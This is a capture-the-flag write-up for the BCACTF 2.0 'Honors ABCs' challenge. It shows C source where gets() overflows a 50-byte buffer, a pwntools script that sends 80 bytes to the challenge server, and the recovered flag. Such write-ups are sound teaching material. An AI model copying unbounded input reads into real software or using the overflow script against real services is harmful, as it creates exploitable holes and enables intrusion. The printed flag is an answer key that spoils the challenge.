 ![Challenge](https://github.com/ZeroCooL-555/CTF/blob/master/BCACTF%202.0/pwn/Honors%20ABCs/challenge.png)
# Vulnerability discovery

```c
int main() {
    int grade = 0;
    char response[50];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to your first class at BCA: Honors-level ABCs.");
    puts("Because we expect all our students to be perfect, I'm not going to teach you anything.");
    sleep(2);
    puts("Instead, we're going to have a quiz!");
    puts("And, of course, I expect all of you to know the material already.");
    sleep(2);
    puts("");
    puts("╔════════════════════════╗");
    puts("║ THE QUIZ               ║");
    puts("║                        ║");
    puts("║ 1) Recite the alphabet ║");
    puts("╚════════════════════════╝");
    puts("");
    printf("Answer for 1: ");
    gets(response); // Buffer-Overflow Here
```

**Line 29** Contains a dangerous function `gets()` which can lead
to a buffer overflow

# Exploitation

```python
#!/usr/bin/env python3

from pwn import *

payload = b"A"*80
r = remote('bin.bcactf.com', 49155)
log.info('Sending payload')
r.sendlineafter('Answer for 1: ', payload)
log.success('Payload sent')
r.recvuntil('Let me recite the BCA plagarism policy.', timeout=10)
log.progress('Parsing data for flag')

while True:
    try:
        flag = r.recvline()
        if b"bcactf{" in flag:
            log.success(flag.decode())
            break
    except EOFError:
        log.warning('Error Parsing Data...Try again')
        break

#FLAG: bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}
```
